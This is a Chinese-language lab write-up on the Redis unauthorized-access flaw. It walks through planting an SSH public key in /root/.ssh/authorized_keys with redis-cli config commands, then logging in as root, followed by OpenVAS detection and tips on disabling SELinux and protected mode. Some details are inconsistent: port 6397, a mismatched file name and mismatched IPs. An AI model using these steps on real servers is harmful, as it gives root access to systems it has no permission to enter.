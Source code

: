 ```yaml
---
title: redis未授权访问漏洞
tags: redis,未授权访问
grammar_cjkRuby: true
---
```

## redis是什么
redis是一个高性能的key-value数据库,开源,遵守BSD协议。
### BSD协议
BSD开源协议是一个给于使用者很大自由的协议。可以自由的使用，修改源代码，也可以将修改后的代码作为开源或者专有软件再发布。
### redis特点
* Redis支持数据的持久化，可以将内存中的数据保存在磁盘中，重启的  时候可以再次加载进行使用。
* Redis不仅仅支持简单的key-value类型的数据，同时还提供list，set，zset，hash等数据结构的存储。
* Redis支持数据的备份，即master-slave模式的数据备份。
BSD协议
## redis未授权访问漏洞
### 漏洞的影响
攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器。
### 漏洞产生的原因
Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。
### 公钥登陆
用户将自己的SSH公钥储存在远程主机上。登录的时候，远程主机会向用户发送一段随机字符串，用户用自己的私钥加密后，再发回来。远程主机用事先储存的公钥进行解密，如果成功，就证明用户是可信的，允许直接登录shell，不再要求密码。
![enter description here][1]
### 总结
即只要向目标机器~/.ssh/authorized_keys的文件写入自己的公钥，就可以直接登陆目标机器的shell。
## 渗透场景

## 漏洞的重现和利用
### 漏洞环境搭建
1. 安装和启动redis服务
在win10下的虚拟机fedora26
安装redis时默认会将redis绑定在0.0.0.0：6397
```shell
$ yum install redis*
$ redis-server
```
2.安装ssh
linux中默认自带ssh
需要启动ssh
```shell
$ service sshd start
```
3.配置ssh
在.ssh目录下，获得公钥和私钥，将公钥前后加入两空行写入pub.txt文件中.
最后将pub.txt的内容连接到目标机器redis服务中键名为crackit的键值中，假设目标机器ip为：192.168.1.1 
```shell
$ cd /root/.ssh
$ ssh-keygen –t rsa
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > pub.txt
$ cat foo.txt | redis-cli -h 192.168.1.1 -x set crackit
```
### 漏洞复现
连接reids服务
就跟redis的数据库文件保存路径
将前面保存的键值crackit加入”authorized_keys“末尾
```shell
$ redis-cli -h 192.168.1.11
$ config set dir /root/.ssh/
查看是否修改成功
$ config get dir
$ config set dbfilename "authorized_keys"
获取当前数据库文件
$ config get dbfilename
$ save
```
配置完后，就可以直接使用自己的私钥连接目标机器了

```shell
$ ssh –i id_rsa root@192.168.1.1
```
## 使用openvas验证
![enter description here][2]
漏洞名称为Redis Server no password
![enter description here][3]
根据openvas
漏洞产生的原因：是因为没有使用密码对Redis进行保护
检查漏洞的方法：连接远程的redis服务器查看它是否存在密码
### 查看扫描脚本nvt
NVT:Network Vulnerability Test网络漏洞测试
一个网络漏洞测试程序，用于检查目标系统是否存在一个特定的已知或潜在安全问题。
NVT在目录/var/lib/openvas/plugins/
根据扫描结果中的OID值可以在中找到NVT文件位置http://www.openvas.org/openvas-nvt-feed.html
![enter description here][4]
![enter description here][5]
脚本扫描原理获取redis使用端口号，查看redis是否具有密码如果redis没有密码则存在相关漏洞
## 注意
1.需要关闭SElinux
修改/etc/selinux/config 文件
将SELINUX=enforcing改为SELINUX=disabled
重启
2.redis默认开启了protected mode
在将公钥存在redis键中时会拒绝操作
使用提示中给出的临时改变配置的方法redis-server --proteced-mode no的方法关闭该模式。
3.只能获取到启动redis-server的用户权限
即如果是普通用户启动redis服务可能，入侵者就没有办法权限修改authorized_keys文件
  [1]: ./images/%E5%9B%BE%E7%89%871.png "图片1"
  [2]: ./images/%E5%9B%BE%E7%89%871_1.png "图片1"
  [3]: ./images/%E5%9B%BE%E7%89%872.png "图片2"
  [4]: ./images/%E5%9B%BE%E7%89%873.png "图片3"
  [5]: ./images/%E5%9B%BE%E7%89%874.png "图片4"